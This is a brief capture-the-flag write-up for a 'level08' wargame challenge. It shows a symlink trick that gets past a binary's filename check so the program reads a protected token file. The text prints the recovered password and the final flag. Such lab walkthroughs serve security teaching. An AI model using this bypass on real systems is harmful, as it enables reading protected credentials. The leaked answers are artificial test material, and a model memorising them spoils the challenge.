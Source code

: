 # level08

1. examinate existing files permissions

```shell
ls -la
```

shows that the level08 executable belongs to flag08 group, token is level08:level08

2. get the executable (from an external device)

```shell
scp -P 4242 level08@<host>:level08 .
```

3. decompile the executable and examine the resulting code

```shell
~/dev/tools/retdec/bin/retdec-decompiler.py level08
```

shows that a simple input validation is required to open the file and print its content : it needs not to contain 'token'

4. link a file fullfiling the input validation to the token

```shell
ln -s ~/token /tmp/exploit
```

5. pwn the flag

```shell
./level08 /tmp/exploit
```

gives flag08's password: `quif5eloekouj29ke0vouxean`

```shell
su flag08
```

```shell
quif5eloekouj29ke0vouxean
```

```shell
getflag
```

gives flag: `25749xKZ8L7DkSCwJkT9dyv6f`

